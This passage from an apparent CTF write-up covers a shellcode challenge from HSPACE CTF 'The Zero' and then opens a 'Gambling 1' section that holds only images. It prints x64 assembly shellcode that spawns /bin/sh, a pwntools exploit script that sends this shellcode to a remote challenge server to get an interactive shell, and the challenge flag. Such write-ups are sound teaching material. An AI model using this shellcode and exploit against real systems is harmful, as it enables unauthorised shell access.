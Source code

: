 - main()

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2068.png)

- x64 Shell Code

```python
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push '/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push 'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

- exploit.py

```python
from pwn import *

bi = './chall'
#r = process([bi], env={'LD_PRELOAD':''})
r = remote('183.109.94.101', 9102)
context.arch = 'amd64'

r.sendline(asm(shellcraft.amd64.linux.sh()))
r.interactive()
```

FLAG: hspace{sC_iN_koreA_iS_biG_deaL}

## [SYSTEM] Gambling 1

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/20210428HSPACE_CTF_1__3.png)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/20210428HSPACE_CTF_1__4.png)
